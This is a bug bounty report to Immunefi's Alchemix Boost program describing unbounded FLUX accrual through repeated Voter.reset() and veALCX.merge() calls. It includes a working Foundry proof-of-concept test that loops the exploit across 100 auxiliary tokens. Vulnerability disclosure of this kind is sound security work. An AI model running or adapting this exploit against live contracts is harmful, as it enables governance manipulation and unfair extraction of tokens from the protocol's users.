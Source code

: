 
# Undound FLUX accrual through reset and merge

Submitted on Sun May 19 2024 23:17:59 GMT-0400 (Atlantic Standard Time) by @DuckAstronomer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31481

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Vulnerability Details
The attacker can accrue FLUX indefinitely by following a loop: first, they call `Voter.reset()` to accrue FLUX for the current veALCX, then transfer the balance from that veALCX to a new veALCX using `veALCX.merge(oldId, newId)`, followed by claiming FLUX for the new veALCX. This process can be repeated multiple times to keep accruing FLUX continuously.

FLUX can be accrued by calling `Voter.reset()` once in an epoch for the current tokenId.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L191

However, it's possible to transfer veALCX balance to a new tokeId by calling `veALCX.merge()`. This allows to claim FLUX one more time with `Voter.reset()`.

## Impact Details
Flux token allows to boost voting power. Unbounded Flux accrual allows to significantly change the voting results. 

        
## Proof of concept
## Proof of Concept
Poc scenario:
1. The attacker mints the main veALCX with 1000 BAL tokens.
2. The attacker mints 100 more auxiliary veALCX with 10 wei of BAL each.
3. The loop begins.
4. In the loop, the attacker calls `Voter.reset()` to accrue FLUX amount.
5. The attacker immediately transfers the balance from veALCX from step 3 to a yet unused auxiliary veALCX by calling `veALCX.merge(lastId, currentId)`.
6. Go back to step 3.

To run the PoC, place the code below in the `PoC.t.sol` file and execute the command: `forge test --mp src/test/PoC.t.sol --fork-url 'URL'`.

```
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract Poc is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    // Run as: forge test --mp src/test/Poc.t.sol --fork-url 'URL'
    function test_poc() public {
        address bad = address(1);

        uint256 NUMBER_ITER = 100;

        // The bad guy mints the main veALCX using 1000 BAL
        uint256 tokenId_bad = createVeAlcx(bad, 1000e18, MAXTIME, false);
        
        // The bad guy mints many auxiliary veALCX tokens using 10 wei of BAL
        uint256[] memory tokenIds = new uint256[](NUMBER_ITER);
        for (uint256 i; i < NUMBER_ITER; i++)
            tokenIds[i] = createVeAlcx(bad, 10, MAXTIME, false);

        hevm.startPrank(bad);

        // This is how much Flux the bad guy should accrue
        // without cheating.
        uint256 noCheating = veALCX.claimableFlux(tokenId_bad);

        // The bad guy accrues Flux in a loop
        // by calling Voter.reset() and then transferring balance to a new auxiliary veACLX by calling merge(last,current).
        uint256 lastId = tokenId_bad;
        for (uint256 i; i < NUMBER_ITER; i++) {
            uint256 currentId = tokenIds[i];

            uint256 beforeFlux = IERC20(flux).balanceOf(bad);

            // Accrue Flux when resetting
            // https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L191
            voter.reset(lastId);
            flux.claimFlux(lastId, veALCX.claimableFlux(lastId));

            uint256 afterFlux = IERC20(flux).balanceOf(bad);

            assertGt(afterFlux, beforeFlux);

            // Merge last->current, keep the wheel spinning
            veALCX.merge(lastId, currentId);

            lastId = currentId;
        }
        
        hevm.stopPrank();
        
        // The bad guy accrued after the attack.
        uint256 realFlux = IERC20(flux).balanceOf(bad);

        // The bad guy gets much more
        assertGe(realFlux, NUMBER_ITER*noCheating);
    }
}
```